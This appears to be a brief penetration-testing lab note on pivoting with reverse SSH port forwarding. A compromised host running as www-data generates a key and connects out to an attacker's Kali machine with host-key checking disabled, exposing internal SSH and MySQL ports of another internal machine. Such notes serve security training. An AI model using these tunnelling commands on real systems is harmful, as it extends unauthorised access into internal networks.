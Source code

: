 #Enter in local box ~/.ssh/authorized_keys
#This entry allows the owner of the private key (the remote end), to log in to our Kali machine but prevents them from running commands and only allows for port forwarding.

#On remote box:
mkdir /tmp/keys
ssh-keygen (/tmp/keys/id_rsa)


from="10.11.1.250",command="echo 'This account can only be used for port forwarding'",no-agent-forwarding,no-X11-forwarding,no-pty ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCxO27JE5uXiHqoUUb4j9o/IPHxsPg+fflPKW4N6pK0ZXSmMfLhjaHyhUr4auF+hSnF2g1hN4N2Z4DjkfZ9f95O7Ox3m0oaUgEwHtZcwTNNLJiHs2fSs7ObLR+gZ23kaJ+TYM8ZIo/ENC68Py+NhtW1c2So95ARwCa/Hkb7kZ1xNo6f6rvCqXAyk/WZcBXxYkGqOLut3c5B+++6h3spOPlDkoPs8T5/wJNcn8i12Lex/d02iOWCLGEav2V1R9xk87xVdI6h5BPySl35+ZXOrHzazbddS7MwGFz16coo+wbHbTR6P5fF9Z1Zm9O/US2LoqHxs7OxNq61BLtr4I/MDnin www-data@0ajla


#To Connect from remote to local
ssh -Nf -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" -i /tmp/keys/id_rsa kali@192.168.119.250 -R 2222:10.5.5.11:22 -R 3333:10.5.5.11:3306

#Port 2222, 3333 should be open on local box